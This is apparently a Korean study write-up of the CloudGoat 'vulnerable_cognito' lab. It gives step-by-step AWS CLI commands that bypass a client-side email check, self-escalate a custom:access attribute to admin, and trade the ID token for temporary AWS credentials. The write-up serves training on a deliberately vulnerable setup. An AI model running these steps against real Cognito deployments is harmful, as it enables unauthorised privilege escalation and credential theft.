

# 10th Scenario: Vulnerable_Cognito

[← CloudGoat 시나리오 목록](../README.md)

난이도: Moderate




# 진행

현재 배포된 시나리오는 없어서 깨끗한 상태에서 시작할 수 있어. 이번 문제는 IAM 사용자 키로 시작하는 문제가 아니라, 웹 로그인 취약점을 통해 Cognito의 임시 AWS 자격 증명을 얻는 흐름이다. 

```
cloudgoat create vulnerable_cognito
```

완료되면 `apigateway_url`이 출력돼. 그 URL을 브라우저에서 열어봐. 이번 문제의 출발점은 그 웹사이트뿐이야.


Cognito는 두 층으로 이해하면 편해.

```
웹 회원가입 / 로그인
        ↓
Cognito User Pool
        ↓ JWT 토큰
Cognito Identity Pool
        ↓ 임시 AWS Access Key / Secret Key / Session Token
IAM Role 권한으로 AWS API 호출
```

- User Pool: 웹사이트의 회원가입·로그인 담당
- Identity Pool: 로그인 토큰을 AWS 임시 자격 증명으로 교환
- IAM Role: 그렇게 발급된 임시 자격 증명이 실제로 할 수 있는 일을 결정

AWS도 User Pool 토큰을 Identity Pool에 제출해 임시 AWS 자격 증명으로 바꾸는 흐름을 공식적으로 지원한다. [AWS Cognito 설명](https://docs.aws.amazon.com/cognito/latest/developerguide/what-is-amazon-cognito.html)

- 아래는 들어가본 웹사이트 페이지다.


- 다음은 회원가입 페이지다.


## 1. 회원가입 화면의 제한 확인

회원가입 페이지에서 본인 이메일을 넣어 보면 아마 이런 메시지가 뜰 거야.

```
Only Emails from ecorp.com are accepted
```


- 실제로 뜬 것을 볼 수 있었다.

여기서 가짜 ecorp.com 메일을 쓰면 안 돼. 인증 코드를 받아야 하므로, 실제로 확인 가능한 개인 이메일을 사용해야 해.

이 제한은 Cognito의 서버 정책이 아니라 브라우저 JavaScript 검증이다. 페이지 소스에서 다음 비슷한 코드를 찾을 수 있어. 

```
var Regex = email.search('@ecorp.com');

if (Regex == -1) {
  alert("Only Emails from ecorp.com are accepted");
  return false;
}
```

즉, 브라우저 화면에서만 막고 있을 뿐 Cognito API를 직접 호출하면 우회할 수 있다.

- 실제로 페이지 소스를 확인하면 볼 수 있다.


## 2. 웹페이지 소스에서 Cognito 식별자 찾기

`start.txt`에서 받은 URL을 변수에 넣어.

```
START_URL='여기에_apigateway_url_전체_붙여넣기'
BASE_URL="${START_URL%/index.html}"
```

메인 로그인 페이지에서 User Pool ID와 Client ID를 찾는다.

```
curl -sS "$START_URL" |
  rg 'UserPoolId|ClientId'
```

대략 이런 값이 나와.


- curl -sS가 정확히는 몰랐지만…


동일하게 index.html의 페이지 소스를 확인해보니 같은 내용이 있는 것을 확인했다. curl -sS의 의미를 좀 알 것 같다. 

관리자 페이지에도 Identity Pool ID가 들어 있다. 정적 HTML이므로 직접 열어볼 수 있다.

```
curl -sS "$BASE_URL/admin.html" |
  rg 'IdentityPoolId|AWS.config.region|cognito-idp'
```

찾아야 하는 값은 네 개야.

```
REGION='us-east-1'
USER_POOL_ID='us-east-1_실제값'
CLIENT_ID='실제_Client_ID'
IDENTITY_POOL_ID='us-east-1:실제-UUID'
```


이 값들은 비밀번호나 AWS 키가 아니다. 웹 애플리케이션이 Cognito에 연결하기 위해 공개적으로 포함하는 식별자다.

- 아래는 실제 전체 내용을 긁은 것이다.

```html
(.venv) user@lab:~/.local/lib/python3.10/site-packages/cloudgoat/vulnerable_cognito_cgidj5ydidqwzs$ curl -sS "$API_
URL/admin.html"
<!DOCTYPE html>

<head>
        <title>Admin</title>
</head>

<body>

<script src="./amazon-cognito-identity.min.js"></script>
<script src="./aws-sdk.js"></script>

<script>

var poolData = {
  UserPoolId: 'us-east-1_rjQQarBYE',
  ClientId: '6lsplmdsupcb5jdrahujsk2s0i',
};

var userPool = new AmazonCognitoIdentity.CognitoUserPool(poolData);
var cognitoUser = userPool.getCurrentUser();

if (cognitoUser != null) {
        cognitoUser.getSession(function(err, result) {
                if (result) {
                        console.log('You are now logged in.');

                        //POTENTIAL: Region needs to be set if not already set previously elsewhere.
                        AWS.config.region = 'us-east-1';

                        // Add the User's Id Token to the Cognito credentials login map.
                        AWS.config.credentials = new AWS.CognitoIdentityCredentials({
                                IdentityPoolId: 'us-east-1:054f1f7c-5ca8-481b-b5a5-ff03a621536e',
                                Logins: {
                                        'cognito-idp.us-east-1.amazonaws.com/us-east-1_rjQQarBYE': result
                                                .getIdToken()
                                                .getJwtToken(),
                                },
                        });
                }
        });
}
//call refresh method in order to authenticate user and get new temp credentials
AWS.config.credentials.refresh(error => {
        if (error) {
                console.error(error);
        } else {
                console.log('Successfully logged!');
        }
});

</script>

<h1 align="center">You're an Admin!!</h1>

<body>
```

## 3. CLI로 직접 회원가입

실제로 메일을 받을 수 있는 주소와 조건에 맞는 비밀번호를 정해.

```
LAB_EMAIL='본인_실제_이메일'
LAB_PASSWORD='CloudGoat10!Lab'
```

회원가입을 실행한다.

```
aws cognito-idp sign-up \
  --client-id "$CLIENT_ID" \
  --username "$LAB_EMAIL" \
  --password "$LAB_PASSWORD" \
  --user-attributes \
    Name=email,Value="$LAB_EMAIL" \
    Name=given_name,Value=Cloud \
    Name=family_name,Value=Goat \
  --region "$REGION" \
  --no-sign-request
```

성공하면 대략 아래처럼 나온다.

```
{
  "UserConfirmed": false,
  "CodeDeliveryDetails": {
    "DeliveryMedium": "EMAIL"
  }
}
```


여러번 시도 끝에 성공하였다… PW 생성 제한이 8자이상에 대문자 소문자 1개 이상 포함 이렇게 빡세게 걸려있었다. 


메일로 받은 인증 코드를 입력해.

```
CONFIRM_CODE='메일로_받은_6자리_코드'

aws cognito-idp confirm-sign-up \
  --client-id "$CLIENT_ID" \
  --username "$LAB_EMAIL" \
  --confirmation-code "$CONFIRM_CODE" \
  --region "$REGION" \
  --no-sign-request
```

성공하면 출력이 없는 것이 정상이다.


## 4. 로그인 토큰을 받고 현재 권한 확인

```
AUTH_JSON="$(
  aws cognito-idp initiate-auth \
    --auth-flow USER_PASSWORD_AUTH \
    --client-id "$CLIENT_ID" \
    --auth-parameters "USERNAME=$LAB_EMAIL,PASSWORD=$LAB_PASSWORD" \
    --region "$REGION" \
    --no-sign-request
)"
```


- 응답이 상당히 긴 것을 볼 수 있다.

응답에서 Access Token과 ID Token을 분리한다.

```
ACCESS_TOKEN="$(
  printf '%s' "$AUTH_JSON" |
    jq -r '.AuthenticationResult.AccessToken'
)"

ID_TOKEN="$(
  printf '%s' "$AUTH_JSON" |
    jq -r '.AuthenticationResult.IdToken'
)"
```


- 사실 길고 단락구분이 안되어있어서 가독성이 떨어지는 것이지, 실제로 살펴보면
    - 가장 첫줄부터 ACCESS_TOKEN이 적혀있고
    - 가장 아랫줄이 ID_TOKEN의 토큰값이다. 그래서 반대로 따라 올라가면 ID_TOKEN의 첫 부분을 볼 수 있다.

현재 Cognito 사용자 속성을 확인해.

```
aws cognito-idp get-user \
  --access-token "$ACCESS_TOKEN" \
  --region "$REGION" \
  --no-sign-request
```

여기서 다음 값이 보이면 정상적으로 중간 지점까지 온 거야.

```
{
  "Name": "custom:access",
  "Value": "reader"
}
```


회원가입 확인 후 Lambda가 사용자의 권한 속성을 `reader`로 설정한 것이다. 하지만 이 시나리오에서는 사용자가 그 속성을 스스로 수정할 수 있게 잘못 구성돼 있다.

## 5. `reader`를 `admin`으로 변경

```
aws cognito-idp update-user-attributes \
  --access-token "$ACCESS_TOKEN" \
  --user-attributes 'Name=custom:access,Value=admin' \
  --region "$REGION" \
  --no-sign-request
```

다시 확인해.

```
aws cognito-idp get-user \
  --access-token "$ACCESS_TOKEN" \
  --region "$REGION" \
  --no-sign-request
```

이제 다음처럼 보여야 한다.

```
{
  "Name": "custom:access",
  "Value": "admin"
}
```


이게 첫 번째 핵심 취약점이야. Lambda가 처음엔 `reader`로 설정했지만, 앱 클라이언트가 `custom:access` 변경을 허용했기 때문에 사용자가 자기 권한 정보를 바꾼 거야.

변경 후에는 새 토큰을 받기 위해 다시 로그인해.

```
AUTH_JSON="$(
  aws cognito-idp initiate-auth \
    --auth-flow USER_PASSWORD_AUTH \
    --client-id "$CLIENT_ID" \
    --auth-parameters "USERNAME=$LAB_EMAIL,PASSWORD=$LAB_PASSWORD" \
    --region "$REGION" \
    --no-sign-request
)"

ID_TOKEN="$(
  printf '%s' "$AUTH_JSON" |
    jq -r '.AuthenticationResult.IdToken'
)"
```


위에가 reader 권한일 때의 ID_TOKEN이고, 아래가 admin 권한일 때의 ID_TOKEN이다. 서로 다른 것을 확인할 수 있다. 

## 6. ID Token을 Identity Pool 자격 증명으로 교환

로그인 공급자 문자열을 만든다.

```
PROVIDER="cognito-idp.${REGION}.amazonaws.com/${USER_POOL_ID}"
```


먼저 Cognito 내부 Identity ID를 받는다.

```
IDENTITY_ID="$(
  aws cognito-identity get-id \
    --identity-pool-id "$IDENTITY_POOL_ID" \
    --logins "${PROVIDER}=${ID_TOKEN}" \
    --region "$REGION" \
    --no-sign-request \
    --query 'IdentityId' \
    --output text
)"

printf '%s\n' "$IDENTITY_ID"
```

여기서 `--query 'IdentityId'`는 `grep`처럼 텍스트를 찾는 것이 아니라, AWS가 반환한 JSON에서 `IdentityId` 필드만 꺼내는 기능이다.


이제 실제 임시 AWS 자격 증명을 요청한다.

```
COGNITO_CREDS="$(
  aws cognito-identity get-credentials-for-identity \
    --identity-id "$IDENTITY_ID" \
    --logins "${PROVIDER}=${ID_TOKEN}" \
    --region "$REGION" \
    --no-sign-request
)"
```

키 전체를 출력하지 않고, 구조와 만료 시간만 확인해.

```
printf '%s' "$COGNITO_CREDS" |
  jq '{
    IdentityId,
    AccessKeyId: .Credentials.AccessKeyId,
    Expiration: .Credentials.Expiration
  }'
```


이 API는 로그인 토큰을 검증한 후 임시 AWS 자격 증명을 반환한다. [AWS CLI 공식 문서](https://docs.aws.amazon.com/cli/latest/reference/cognito-identity/get-credentials-for-identity.html)

## 7. 새 AWS 신원으로 확인

임시 자격 증명을 현재 터미널에만 적용한다.

```
export AWS_ACCESS_KEY_ID="$(
  printf '%s' "$COGNITO_CREDS" |
    jq -r '.Credentials.AccessKeyId'
)"

export AWS_SECRET_ACCESS_KEY="$(
  printf '%s' "$COGNITO_CREDS" |
    jq -r '.Credentials.SecretKey'
)"

export AWS_SESSION_TOKEN="$(
  printf '%s' "$COGNITO_CREDS" |
    jq -r '.Credentials.SessionToken'
)"
```

`SessionToken`이 반드시 필요하다. 이것이 일반 IAM Access Key와 Cognito 임시 자격 증명의 가장 큰 차이야.

이제 현재 AWS 신원을 확인해.

```
aws sts get-caller-identity \
  --region "$REGION"
```


성공하면 ARN에 아래 같은 형태가 나온다.

```
arn:aws:sts::<계정번호>:assumed-role/cognito_authenticated-<CGID>/CognitoIdentityCredentials
```

즉, 네가 IAM User가 된 것이 아니라 Cognito Identity Pool이 연결한 `cognito_authenticated` IAM Role의 임시 세션을 받은 것이다.

권한 범위를 확인하려면 다음 정도를 실행하면 된다.

```
aws s3api list-buckets \
  --query 'Buckets[].Name'

aws lambda list-functions \
  --region "$REGION" \
  --query 'Functions[].FunctionName'
```


`iam list-roles`는 거부될 수 있다. 이 Role은 S3, Lambda, Cognito 쪽에는 과도한 권한이 있어도 IAM 관리 권한까지 갖지는 않을 수 있기 때문이다.


이번 문제의 공식 목표는 여기까지다. `assumed-role/cognito_authenticated...` 신원이 나오고 AWS API를 호출할 수 있으면 성공이다. CloudGoat의 시나리오 설명과 취약한 설정은 `CloudGoat vulnerable_cognito/README.md`, `terraform/cognito.tf`에서 직접 확인할 수 있어.

토큰, `COGNITO_CREDS`, Access Key, Secret Key, Session Token 값 자체는 채팅에 붙여 넣지 말고 오류 메시지나 명령 결과의 구조만 공유해줘.
